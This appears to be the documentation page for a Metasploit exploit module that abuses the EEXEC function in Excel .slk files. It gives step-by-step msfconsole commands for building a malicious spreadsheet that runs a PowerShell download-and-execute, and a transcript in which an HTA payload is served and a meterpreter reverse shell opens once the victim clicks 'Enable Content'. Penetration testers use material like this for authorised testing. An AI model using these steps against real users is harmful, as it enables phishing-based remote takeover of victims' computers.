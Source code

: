 ## Introduction

The .slk file format used by Microsoft Excel has the ability to execute local commands via the `EEXEC(cmd)` function.
This module takes advantage of this 'feature' to run a download-and-execute powershell command in order to spawn a session
on the target.

## Vulnerable Application

  Microsoft Excel (tested on Excel 2016)

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/office_excel_slk`
3. `set LHOST [IP]`
4. `set SRVHOST [IP]`
5. `run`
6. Open generated file and press 'Enable Content' in Excel

## Options

### FILENAME

  The name of the generated .slk file. Default is a randomly generated file name.

## Scenarios

### Microsoft Excel 2016 on Windows 10 Build 17763.288

  ```
  msf > use exploit/windows/fileformat/office_excel_slk
  msf exploit(office_excel_slk) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(office_excel_slk) > set lhost 192.168.146.1
  lhost => 192.168.146.1
  msf exploit(office_excel_slk) > set srvhost 192.168.146.1
  srvhost => 192.168.146.1
  msf exploit(office_excel_slk) > run
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 192.168.146.1:4444
  [+] msf.doc stored at /Users/carter/.msf4/local/msf.slk
  [*] Using URL: http://192.168.146.1:8080/default.hta
  [*] Server started.
  ```

  Once the victim opens the file and clicks 'Enable Content' a session should spawn:

  ```
  [*] Sending stage (957487 bytes) to 192.168.146.145
  [*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2019-01-13 16:00:49 -0500
  ```
